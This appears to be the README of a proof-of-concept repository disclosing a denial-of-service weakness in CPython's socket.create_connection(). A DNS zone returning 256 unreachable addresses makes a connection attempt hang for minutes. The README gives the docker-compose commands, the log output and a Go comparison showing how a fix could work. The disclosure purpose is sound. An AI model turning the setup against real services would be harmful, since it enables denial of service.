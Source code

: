 # PoC CPython GH-10XXXX

This repository contains a basic demonstration of a denial of service vulnerability
of `socket.create_connection()` against untrusted user-inputs of domain names.

[docker-compose.yaml](docker-compose.yaml) deploys a pre-configured DNS server (bind9)
with a `*.test` zone returning 256 IP addresses under the `A` record.

[poc.py](poc.py) invokes `socket.create_connection(("poc.test", 80), timeout=1)`
(default arguments) which simulates what would happen if a malicious user
would trick/ask a Python application to connect to a domain name returning
lots of IP addresses that always timeout when connecting to them.

### Usage

```
$ docker-compose up --build
$ docker-compose exec poc poc.py --domain poc.test --timeout 1
```

### Output

```
$ docker-compose exec poc poc.py --domain poc.test --timeout 1
2023-06-22 16:05:16,550 DEBUG: socket.connect: ('10.0.2.200', 80)
2023-06-22 16:05:17,553 DEBUG: socket.connect: ('10.0.2.84', 80)
[...]
2023-06-22 16:09:32,042 DEBUG: socket.connect: ('10.0.2.137', 80)
2023-06-22 16:09:33,043 ERROR: Socket timeout error!
2023-06-22 16:09:33,044 INFO: Took: 256 seconds
```

## Example non-vulnerable implementation

[example-golang.go](example-golang.go) shows the behavior of Golang versus
the Python's current, which acts an example on how the fix could be implemented
and would behave (RFC 8305).

```
$ docker-compose up --build
$ docker-compose exec go-example go-example --domain poc.test --timeout 10s
```

```
$ docker-compose exec go-example go-example --domain poc.test --timeout 10s
17:20:26.445149 Found 256 IPs to try out
17:20:26.445282 Attempting to connect to 10.0.2.21:80...
17:20:28.446960 Attempting to connect to 10.0.2.25:80...
17:20:30.449034 Attempting to connect to 10.0.2.67:80...
17:20:32.450936 Attempting to connect to 10.0.2.141:80...
17:20:34.452858 Attempting to connect to 10.0.2.13:80...
17:20:36.443316 Failed to get URL (in 10.004180651s): dial tcp 10.0.2.230:80: i/o timeout
```
